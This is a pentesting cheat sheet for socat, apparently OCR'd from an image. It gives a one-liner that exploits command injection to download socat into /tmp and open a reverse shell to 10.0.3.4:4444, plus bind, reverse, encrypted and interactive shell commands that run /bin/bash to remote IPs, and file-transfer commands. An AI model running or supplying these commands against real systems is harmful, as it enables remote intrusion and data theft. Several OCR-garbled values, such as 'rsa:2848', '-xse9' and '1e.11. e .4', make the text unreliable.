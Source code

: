 # socat

## Deployment

If socat isn’t installed, you’re not out of luck. There are standalone binaries that can be downloaded from this awesome Github repo:\
\
[https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)\
\
With a command injection vuln, it’s possible to download the correct architecture socat binary to a writable directoy, chmod it, then execute a reverse shell in one line:

```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

## connect

```
socat - TCP4:[ip]:[port] 
socat TCP4-LISTEN:[port] STDOUT
```

## file transfer

```
sudo socat TCP4-LISTEN:443,fork file:file.txt
socat TCP4:18.11.8.4:443 file:file.txt,create
```

## shell

```
socat -d -d TCP4-LISTEN:443 STDOUT
socat TCP4:18.11.8.22:443 EXEC:/bin/bash
```

### ssh shell

create a cert with openssl:

```
openssl req -newkey rsa:2848 -nodes -keyout shell.key -x509 -days 365 -out shell.crt

req: initiate a new certificate signing request
-newkey: generate a new private key
rsa:2848: use RSA encryption with a 2,048-bit key length.
-nodes: store the private key without passphrase protection
-keyout: save the key to a file
-xse9: output a self-signed certificate instead of a certificate request
-days: set validity period in days
-out: save the certificate to a file
```

merge two files to create a usable pem file for socat:

```
cat bind_shett.key bind_shett.crt > bind_shett.pem
```

attacker:

```
socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=e,fork EXEC:/bin/bash
```

victim:

```
socat - OPENSSL:1e.11. e .4:443,verify=8
```

### intractive shell

```
socat file:`tty`,raw,echo=0 tcp-listen:4444 → attacker
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  → host
```
